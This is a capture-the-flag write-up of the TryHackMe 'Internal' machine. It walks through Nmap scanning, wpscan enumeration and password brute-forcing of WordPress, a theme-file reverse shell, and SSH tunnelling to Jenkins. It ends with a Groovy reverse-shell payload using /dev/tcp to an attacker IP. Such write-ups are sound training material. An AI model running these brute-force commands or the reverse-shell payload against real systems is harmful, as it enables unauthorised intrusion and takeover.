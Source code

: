 ```yaml
---
title: THM | Internal | 22-07-2023
updated: 2023-07-23 18:07:05Z
created: 2023-07-22 14:41:03Z
latitude: 25.57877260
longitude: 91.89325350
altitude: 0.0000
---
```


# THM | Internal 

**Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

  - User.txt
  - Root.txt
 
# Scanning 
## Nmap Scan:
```bash
└─$ nmap -sC -sV -oN nmap.txt 10.10.223.143                       
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-22 10:40 EDT
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 39.07% done; ETC: 10:40 (0:00:17 remaining)
Nmap scan report for 10.10.223.143
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.18 seconds
```

### Open Ports:
- 22/tcp ssh
- 80/tcp http

## Port 80 (HTTP)
 We have added the ip to internal.thm in our `/etc/hosts` file. 
And It opens a default apache2 page.

![0e0c0ecb72d1cfa002b6d8d640cb6bc3.png](/Tryhackme/Internal/_resources/0e0c0ecb72d1cfa002b6d8d640cb6bc3.png)

  We will now start the gobuster for finding hidden directories. 
  
![765a3ce1526da8af125720b7f354b796.png](/Tryhackme/Internal/_resources/765a3ce1526da8af125720b7f354b796.png)

 We found `/blog` directory first, so we will open it. 
 
 ![b7b49634886987bd1324814610c79b14.png](/Tryhackme/Internal/_resources/b7b49634886987bd1324814610c79b14.png)
 
 Then, we checked in the source page and found its a wordpress site running version `5.4.2`
 
 ![482875c86db1560e16419fbab2a39205.png](/Tryhackme/Internal/_resources/482875c86db1560e16419fbab2a39205.png)
 
 Now we will check `/wp-admin` page, which is the login page for the wp sites.
 
 ![a9296e2550a71973ede6d1e29a9ca7e7.png](/Tryhackme/Internal/_resources/a9296e2550a71973ede6d1e29a9ca7e7.png)
 
 Next we tried to login with some default credential and found admin username exist.
 We can confirm that by checking the error message returned.
 
 Error message if we have valid username.
 ![c547f3148ad3b8f8135efc178067d3d4.png](/Tryhackme/Internal/_resources/c547f3148ad3b8f8135efc178067d3d4.png)
 
 Error message if user does not exit.
 
 ![2bd2775ac66656409d1a5f457cffa84d.png](/Tryhackme/Internal/_resources/2bd2775ac66656409d1a5f457cffa84d.png)
 
We can also find the username by running the following wpscan command:
```
wpscan --url internal.thm/blog/ -e u
```
 ![79cf1321620a105f12b8eb9047e30681.png](/Tryhackme/Internal/_resources/79cf1321620a105f12b8eb9047e30681.png)
 
 We checked for any vulnerable plugins by this following command, but we didn't found.
```
wpscan --url internal.thm/blog/ -e vp
```

Run wpscan for password cracking with the following command:
```
wpscan --url http://internal.thm/blog/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin 
```

We have successfully cracked the password:

![bceb4a94df2bbd1a65aa1eea65e95d8e.png](/Tryhackme/Internal/_resources/bceb4a94df2bbd1a65aa1eea65e95d8e.png)

# Initail Access

Now, we have logged in to the wordpress dashboard with the password found above:

![c9dacac26baea8197c99475769ed045d.png](/Tryhackme/Internal/_resources/c9dacac26baea8197c99475769ed045d.png)

Now we will edit the php file of the theme to get reverse shell. In this case, we have edited footer.php

![64a66ddb9e97e23150c0eca9b5a8d3a4.png](/Tryhackme/Internal/_resources/64a66ddb9e97e23150c0eca9b5a8d3a4.png)

We have got the reverse shell.

![7fc213435bd70d2b2242a20838891a3b.png](/Tryhackme/Internal/_resources/7fc213435bd70d2b2242a20838891a3b.png)

We have found the sql database username and password under `/var/www/html`

![6affbc1c49ac74ce613c4ad8790a0487.png](/Tryhackme/Internal/_resources/6affbc1c49ac74ce613c4ad8790a0487.png)

Then, We have found password for the user `aubreanna` in the `/opt folder`

![252872bc580367992c8fd0f4148b3448.png](/Tryhackme/Internal/_resources/252872bc580367992c8fd0f4148b3448.png)

# User Privilege Escalation

We have successfully ssh to the user `aubreanna` with the found password and read the user flag.

![eaafd37d844aa0ffc1467f37ab3c9217.png](/Tryhackme/Internal/_resources/eaafd37d844aa0ffc1467f37ab3c9217.png)

We also found jenkins.txt and it says jenkins server running on `172.17.0.2:8080`

![d0a3e701f6d7a832823f3bafb3326078.png](/Tryhackme/Internal/_resources/d0a3e701f6d7a832823f3bafb3326078.png)

So, we will use ssh tunneling to access this server from local machine using the following command.
```
ssh -L 4444:172.17.0.2:8080 aubreanna@internal.thm
```
We accessed the jenkins login page:

![2b3b657d0b2990844c5e7fc4ef2f281b.png](/Tryhackme/Internal/_resources/2b3b657d0b2990844c5e7fc4ef2f281b.png)

As jenkins default credentials are not working we need to brute force the password.

We have intercepted the login request with burp suite and run the brute force attack and cracked the password for username `admin`

![97251bbe2087edb5d1e7948f0be25ee8.png](/Tryhackme/Internal/_resources/97251bbe2087edb5d1e7948f0be25ee8.png)

# Root Privilege Escalation
Then, we have logged in successfully.
![1c9de55afe9192b7ac856d0317dd3df2.png](/Tryhackme/Internal/_resources/1c9de55afe9192b7ac856d0317dd3df2.png)

Now we will look for uploading reverse shell in jenkins script console. 
Then, we have run the java reverse shell and got the jenkins shell.
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![43eba5b456932a684bc29d5091bf0ead.png](/Tryhackme/Internal/_resources/43eba5b456932a684bc29d5091bf0ead.png)

![e7f9ef6ab4f77d91c5c9c9f0f09be799.png](/Tryhackme/Internal/_resources/e7f9ef6ab4f77d91c5c9c9f0f09be799.png)

In the `/opt` folder we found `note.txt`with root password.

![2e63c4462310ad8c4545286147dd2eee.png](/Tryhackme/Internal/_resources/2e63c4462310ad8c4545286147dd2eee.png)

So, we have `ssh` to the root user of `internal.thm` and got the root flag.

![d925e2718b75e3fd60b43db16ad785d6.png](/Tryhackme/Internal/_resources/d925e2718b75e3fd60b43db16ad785d6.png)

So, we have successfully rooted this machine. 

